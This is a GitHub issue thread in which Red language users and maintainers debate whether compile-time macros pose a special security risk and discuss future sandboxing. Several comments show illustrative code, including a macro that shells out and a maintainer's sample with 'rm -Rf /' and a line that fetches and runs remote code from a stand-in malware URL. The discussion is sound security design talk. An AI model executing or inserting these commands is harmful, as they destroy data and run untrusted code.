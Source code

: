 
#3216: Arbitrary Code Execution in Red macros?
================================================================================
Issue is closed, was reported by iceflow19 and has 24 comment(s).
[status.dismissed]
<https://github.com/red/red/issues/3216>

While I know this may be a tad premature to worry about things like this with since Red is still alpha, but I have no doubt this topic would have come up at some point. Since neither the Red nor the Rebol runtime running the macros are sandboxed, all it takes is a malicious source code file to allow for remote code exploits. See attached code, you can both access remote internet resources and executed shell code locally, more than enough to make a machine vulnerable.

What are the dev team's plans on this matter. Is there any way to combat this currently or will it take running the compiler fully on Red to address this?

```red
Red []
#do [
    write %test.out read http://www.json.org/
    call/output [dir %/c/windows] %test2.out
]
```


Comments:
--------------------------------------------------------------------------------

On 2018-02-02T15:09:07Z, dockimbel, commented:
<https://github.com/red/red/issues/3216#issuecomment-362611986>

    A Red macro is just Red or Rebol code evaluated at compile time (or at runtime when called from interpreter). Red macros are part of your source code, so you are already running arbitrary code (if you are not the source code author).
    
    In your above example, the `#do` forces the evaluation of the argument block at preprocessing time. If you remove `#do [...]` wrapping, it will run the same code at run-time. Why do you think macros present a particular threat compared to "regular" code?

--------------------------------------------------------------------------------

On 2018-02-04T21:39:25Z, iceflow19, commented:
<https://github.com/red/red/issues/3216#issuecomment-362942146>

    I am aware of the definition of a macro. My question is one of expectation and extent. Ignoring runtime preprocessing for right now, when one runs an executable there's the expectation of risk that comes with it. But with macros, I question if there is the same expectation. For programmers coming from other languages, I feel that they would assume that macros should **_only_** be able to act on the program's code.
    
    That gives an expectation of security to the compilation process, minus of course any build scripts that might be involved. When I compile a C program, I don't expect the compilation process to be able to do my taxes. I would think, macros should be either more sandboxed or more transparent to the user when they try to access resources outside of the scope of the code of the program upon which they're supposed to mutate.

--------------------------------------------------------------------------------

On 2018-02-04T22:03:37Z, greggirwin, commented:
<https://github.com/red/red/issues/3216#issuecomment-362943802>

    Sandboxing and security will come. Comparing to Lisp is better than comparing to C in Red's case.  Remember that Red is always data, and that inputs to a macro may not be your "program's code". It could be data scraped from, or generated somewhere else. If that data is tax rules combined with your personal information, where do we draw the line between what is done with preprocessing versus what is defined in the program? That is, what specifically should we disallow?

--------------------------------------------------------------------------------

On 2018-02-04T22:22:31Z, iceflow19, commented:
<https://github.com/red/red/issues/3216#issuecomment-362945242>

    @greggirwin Point taken. Red's macros are more powerful.
    
    >  It could be data scraped from, or generated somewhere else.
    
    My issue is more with the capacity to write and execute external resources, rather than read from them. Perhaps a compiler flag to allow for insecure macros or maybe something in the Red header? We don't have to necessarily default to just disallowing things.

--------------------------------------------------------------------------------

On 2018-02-05T06:12:14Z, greggirwin, commented:
<https://github.com/red/red/issues/3216#issuecomment-362990935>

    This is an interesting area. Macros execute in their own context, so we could potentially limit things to enforce security aspects, but it might be much more complex if you want to rule out *all* possible risks, because Red is so flexible. That is, if you just think of macros as all of Red executing at a different time, in a different context, as soon as you want to lock it down, you have to lock it down hard, which might make them far less useful. 
    
    Let's come back to the basic question of security. If we lock down macros, but you can still run Red, what have we gained? We should really set up docs, rules, and security features to you can't run untrusted code in either context with full authority, yes? 

--------------------------------------------------------------------------------

On 2018-02-05T19:26:52Z, BrianHoldsworth, commented:
<https://github.com/red/red/issues/3216#issuecomment-363193891>

    I feel like we should have already learned the lesson from previous sandboxed languages/runtimes that security is a system concern that can’t be adequately addressed in languages/runtimes. It’s a matter of education and diligence amongst programmers. The governing authority that manages the language/runtime can and should help, PRIMARILY through promotion of education and diligence amongst programmers.
    
    Programmers need to understand the default security model that Red (or any language/runtime) provides, but they don’t need it to be a particular model.
    
    > On Feb 5, 2018, at 1:12 AM, Gregg Irwin <notifications@github.com> wrote:
    > 
    > This is an interesting area. Macros execute in their own context, so we could potentially limit things to enforce security aspects, but it might be much more complex if you want to rule out all possible risks, because Red is so flexible. That is, if you just think of macros as all of Red executing at a different time, in a different context, as soon as you want to lock it down, you have to lock it down hard, which might make them far less useful.
    > 
    > Let's come back to the basic question of security. If we lock down macros, but you can still run Red, what have we gained? We should really set up docs, rules, and security features to you can't run untrusted code in either context with full authority, yes?
    > 
    > —
    > You are receiving this because you are subscribed to this thread.
    > Reply to this email directly, view it on GitHub <https://github.com/red/red/issues/3216#issuecomment-362990935>, or mute the thread <https://github.com/notifications/unsubscribe-auth/AAsoKB95qgAZ5ze7f8NXKxHZCoNoTkIAks5tRpvAgaJpZM4RvlUt>.
    > 
    

--------------------------------------------------------------------------------

On 2018-02-05T20:18:28Z, greggirwin, commented:
<https://github.com/red/red/issues/3216#issuecomment-363208573>

    Something we're learning as we look at the Red/C3 design, and lessons from Solidity, is that we should make it easy to be safe by default. If you step outside, it's up to you to know what you're doing.

--------------------------------------------------------------------------------

On 2018-02-05T20:29:30Z, BrianHoldsworth, commented:
<https://github.com/red/red/issues/3216#issuecomment-363211491>

    That's right. But you are talking about language requirements of Blockchain Programmers developing smart contracts. They will most likely expect a different default security model than other Red Programmers.
    
    As you are alluding to, it comes back to educating the programmers so they can understand and be appropriately diligent.
    
    My simplistic and naive understanding of Red/C3 is that it is a DSL implemented using Red. As such, it will be implicitly defined how and whether the Blockchain Programmer can "step outside" I.e. by extending the DSL, right? If so, then that is a good thing and an important "feature", because it will help guide programmer understanding about how to both stay in a safe "sandbox" and how/when they play outside of it.

--------------------------------------------------------------------------------

On 2018-02-05T21:24:33Z, greggirwin, commented:
<https://github.com/red/red/issues/3216#issuecomment-363226120>

    Red/C3 will be a DSL, yes, but it will likely be *very* tightly constrained, highly declarative, and not extensible. Not hard rules as the design is not set yet, but a primary goal there is security, which is different from Red, and it also has to run on blockchain VMs, which have very different execution environments. That is, it will compile to blockchain VM opcodes, limit runtime, and only access local state. Stepping outside moves into the realm of oracles, in blockchain parlance, which has yet to be determined as support for that varies by blockchain.

--------------------------------------------------------------------------------

On 2018-02-05T21:33:39Z, greggirwin, commented:
<https://github.com/red/red/issues/3216#issuecomment-363228598>

    If you're familiar with http://www.rebol.com/docs/words/wsecure.html, there will likely be inspiration drawn from that approach for Red.

--------------------------------------------------------------------------------

On 2018-02-05T23:01:58Z, BrianHoldsworth, commented:
<https://github.com/red/red/issues/3216#issuecomment-363251105>

    I think REBOL 'secure' is pretty nice. It is easy to understand and use.
    
    But to the point of the OP, nothing in the one page Doc that is linked educates the programmer as to the perils of 'secure' if the environment/system that their Red app inhabits allows code injection attacks.

--------------------------------------------------------------------------------

On 2018-03-16T09:48:57Z, dockimbel, commented:
<https://github.com/red/red/issues/3216#issuecomment-373659278>

    I wanted to dismiss this ticket from the first time I read it, because it wrongly considers macros as a "security threat" greater than the rest of the source code, without providing any evidence to back up such claim (has it anything to do with confusing language macros with MS Office macros threat?). I left it open to see if new elements would be brought up to justify the initial statement, but I have seen none.
    
    Let's consider the following code sample:
    ```
    Red []
    #do [print "I'm a macro"]
    
    call "rm -Rf /"
    do http://domain.com/malware.red
    ```
    Should we restrict macros in any way when regular code can run arbitrary (harmful) code? This would make no sense. Macros doing I/O is very useful, as they can be required to pull online resources or check online info during the compilation process (not mentioning reading local spec files or generating intermediary/temporay files on disk).
    
    Let me repeat it: _macros provide the same level of security as the rest of the source code. There is no way to "inject" malicious code, nor use any other harmful attack, that you can't achieve woth regular code._  If you can modify something (source files or anything on your OS) from macros, you can do the same with regular code. Therefore, it's pointless to restrict macros _specifically_.
    
    We plan (since the beginning of the project) to add a `secure` dialect in Red, starting in a 0.7.x release. At that point, you'll be able to sandbox to some extent your Red runtime code _and_ Red macros. It would not make sense to sandbox one without the other (though, they could use different levels of sandboxing in a given source, depending on the app building or running needs).
    
    

